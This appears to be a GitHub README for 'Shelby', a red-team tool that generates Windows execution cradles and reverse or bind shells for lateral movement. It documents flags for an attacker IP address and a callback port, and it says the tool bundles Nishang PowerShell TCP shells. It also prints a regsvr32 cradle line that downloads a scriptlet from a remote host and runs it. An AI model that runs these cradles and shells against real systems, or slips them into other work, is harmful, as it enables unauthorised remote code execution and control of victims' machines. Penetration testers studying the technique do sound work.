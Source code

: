<p align="center">
  <img alt="By Order of the Peaky Blinders" src="https://i.imgur.com/5n0ly8K.png" height="140"/>
  <p align="center">
    <a href="https://github.com/ad-995/shelby/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/ad-995/shelby.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/issues"><img alt="GitHub issues" src="https://img.shields.io/github/issues/ad-995/shelby.svg?style=flat-square"></a>
    </p>
</p>

<h5 align="center"><i>Execution Cradle Generation!</i></h5>

***

## Introduction

`Shelby` is a Windows Execution Cradle Generator inspired by [PoshC2](https://github.com/nettitude/PoshC2/blob/master/poshc2/server/Payloads.py) and their `PoshC2_Project/quickstart.txt` documentation. 

The aim of this project is to automatically generate several commonly used Execution Cradles for lateral movement. Future releases will include some classic Linux cradles too.

## Cradles
For our initial proof-o'-concept, we have two cradles:
- `regsvr32`
- `powershell IEX (...)`

These can be run with any command execution. When `Shelby` is run, the provided snippets will update with the given IP address and port and are available in plaintext and base64-encoded.

## Shells
Two shells are currently inside `Shelby`, both from [Nishang](https://github.com/samratashok/nishang). We found these to be more reliable:
- [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- [Invoke-PowerShellTcpOneLineBind](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLineBind.ps1)

Additional shells for Windows and Linux coming soon!

## Modularity
Details on how to add cradle and shells to `Shelby` can be found at [ad-995](https://ad-995.group/projects/shelby.html).

## Example
Below is an example output:
![Shelby Output](https://i.imgur.com/cQPOSOC.png)

## Usage
```
usage: shelby.py [-h] -i  [-w] [-p] [-d]

Giver of shells

optional arguments:
  -h, --help            show this help message and exit
  -i , --ip-address     Attacker IP Address
  -p , --cradle-port    Port for receiving shells
  -w , --web-delivery   Port for serving shells
  -d , --directory      Directory for generated payloads
```

There are some important things to note here:
- `--ip-address`: The IP address that the `shells` will call back to.
- `--cradle-port`: The port that the `shells` will call back to.
- `--web-delivery`: The port that the `cradles` will use to retrieve the `shell`.
- `--directory`: The directory in which all the `cradles` and `shells` will be saved to, as well as the `cradle_commands.txt` file. You should run your web delivery server here.

The `cradle_commands.txt` file contains all the Execution Cradle commands. For example:

```
regsvr32:
regsvr32 /s /n /u /i:http://10.10.11.58:80/sctlvjzqylbdzdl scrobj.dll
```

As more Execution Cradles are added, the format will be the same.:

```
Method:
Cradle Command
```

Finally, the easiest usecase here is to serve the `./web_delivery` directory with `python -m SimpleHTTPServer 80`. 

A project by [mez-0](https://github.com/mez-0) & [michaelranaldo](https://github.com/michaelranaldo)
